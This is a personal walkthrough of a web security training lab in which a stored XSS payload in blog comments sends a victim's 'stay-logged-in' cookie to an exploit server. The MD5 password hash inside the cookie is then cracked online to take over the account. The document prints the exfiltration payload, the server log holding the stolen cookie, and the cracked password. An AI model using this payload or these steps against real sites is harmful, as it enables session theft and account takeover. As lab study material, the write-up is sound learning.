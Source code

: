 This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

---

**Goal:** Steal Carlos's cookie using XSS in the comments of one of the blog posts, and send the information to the provided exploit server. Log into the Carlos account and delete it. 

**Analysis:** The app has a vulnerable comment section that can be exploited with reflective XSS. The app stores the User/Pass in the `keep-logged-in` cookie which i verify by decoding the one it gives me for wiener. The second part is encoded md5 hash for the password. 
`wiener:51dc30ddc473d43a6011e9ebba6ca770`

**Payload:** 
```php
<script>document.location='https://Exploit_server'+document.cookie</script>
```

- Must use single quotes for the exploit server url.

After obtaining the cookie, i can use burp to decode the hash from base64, which gives me the username, and then use `crackstation` to decode the md5 password, and from there i can login and complete the task. 
- https://crackstation.net/


![[Pasted image 20240826094922.png]]

```php
10.0.4.93       2024-08-26 08:47:28 +0000 "GET /secret=zj0l4RG6wiyxRv5ukWR4dAZAk29guG4r;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

`Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

**User:** carlos
**Pass:** onceuponatime

_Now i can login and delete the account, completing the task._

---

**Completed:** _09:52 2024-08-26_
